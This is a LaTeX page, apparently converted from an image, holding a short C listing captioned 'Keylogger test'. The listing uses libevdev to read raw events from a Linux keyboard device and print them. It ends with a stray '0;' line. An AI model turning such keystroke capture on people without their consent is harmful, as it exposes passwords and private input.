 \documentclass[10pt,a4paper,notitlepage ]{article}
\begin{document}
	\begin{figure}
	\begin{lstlisting}[language=C, frame=single, caption={Keylogger test}]
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>
#include <linux/input.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <libevdev/libevdev.h>
#include <libevdev/libevdev-uinput.h>

int main(){
	
	struct libevdev *dev = NULL;
	int fd;
	int rc = 1;
	
	// keyboard : /dev/input/event3
	//fd : file descriptor
	fd = open("/dev/input/event3", O_RDONLY|O_NONBLOCK);
	// rc : return code
	// modifies *dev such that it is hooked to the /dev/input file
	rc = libevdev_new_from_fd(fd, &dev);
	if (rc < 0) {
		//error happenned
		fprintf(stderr, "Failed to init libevdev (%s)\n", strerror(-rc));
		exit(1);
	}
	printf("Input device name: \"%s\"\n", libevdev_get_name(dev));
	printf("Input device ID: bus %#x vendor %#x product %#x\n",
	libevdev_get_id_bustype(dev),
	libevdev_get_id_vendor(dev),
	libevdev_get_id_product(dev));
	
	do {
		struct input_event ev;
		rc = libevdev_next_event(dev, LIBEVDEV_READ_FLAG_NORMAL, &ev);
		if (rc == 0)
		printf("Event: %s %s %d\n",
		libevdev_event_type_get_name(ev.type),
		libevdev_event_code_get_name(ev.type, ev.code),
		ev.value);
	} while (rc == 1 || rc == 0 || rc == -EAGAIN);
	0;
}
	\end{lstlisting}
	\end{figure}
\end{document}
